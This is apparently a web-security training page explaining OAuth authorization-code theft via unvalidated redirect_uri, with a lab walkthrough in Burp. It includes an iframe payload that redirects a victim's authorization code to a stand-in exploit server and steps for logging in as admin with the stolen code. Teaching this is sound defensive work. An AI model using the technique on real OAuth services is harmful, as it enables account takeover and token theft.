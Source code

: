 Perhaps the most infamous OAuth-based vulnerability is when the configuration of the OAuth service itself enables attackers to steal authorization codes or access tokens associated with other users' accounts. By stealing a valid code or token, the attacker may be able to access the victim's data. Ultimately, this can completely compromise their account - the attacker could potentially log in as the victim user on any client application that is registered with this OAuth service.

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate `/callback` endpoint (the original `redirect_uri`) to get access to the user's account. In this scenario, an attacker does not even need to know the client secret or the resulting access token. As long as the victim has a valid session with the OAuth service, the client application will simply complete the code/token exchange on the attacker's behalf before logging them in to the victim's account.

Note that using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.

**Lab solution**

1.  While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2.  Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3.  In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4.  In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response.
5.  Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6.  Go back to the exploit server and create the following `iframe` at `/exploit`:
    `<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`
7.  Store the exploit and click "View exploit". Check that your `iframe` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8.  Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9.  Log out of the blog website and then use the stolen code to navigate to:
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`
    The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete Carlos to solve the lab.

#### Flawed redirect_uri validation
